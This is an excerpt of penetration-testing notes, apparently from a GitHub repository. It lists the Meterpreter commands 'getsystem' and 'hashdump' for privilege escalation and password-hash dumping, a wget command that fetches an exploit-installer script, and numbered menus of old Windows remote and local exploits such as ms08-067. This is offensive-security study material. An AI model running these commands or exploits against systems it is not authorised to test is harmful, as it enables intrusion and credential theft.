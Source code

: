 ### Privilege escalation

```text
getsystem
hashdump
```

## Useful exploits

### Automatically downloads and compiles exploit

```text
wget https://raw.githubusercontent.com/wwong99/pentest-notes/master/scripts/xploit_installer.py
```

```text
USAGE: xploit_installer.py <exploit id>
```

### Windows Remote Exploits:

```text
0: windows_exploit_suggester
1: ms03-026
2: ms03-039 (1)
3: ms03-039 (2)
4: *ms03-049
5: ms04-007
6: ms04-011 - ssl bof
7: ms04-011 - lsasarv.dll
8: ms04-031
9: ms05-017
10: ms05-039
11: *ms06-040 (1)
12: ms06-040 (2)
13: ms06-070
14: *ms08-067 (1)
15: ms08-067 (2)
16: ms08-067 (3)
17: *ms09-050
```

### Windows Local Exploits:

```text
18: windows-privesc-check
19: ms04-011
20: ms04-019 (1)
21: ms04-019 (2)
22: ms04-019 (3)
23: ms04-020
24: *keybd_event
25: *ms05-018
26: *ms05-055
27: ms06-030
28: ms06-049
29: print spool service
30: *ms08-025
31: netdde
32: ms10-015
33: ms10-059
34: ms10-092
35: ms11-080
36: ms14-040
37: *ms14-058 (1)
```
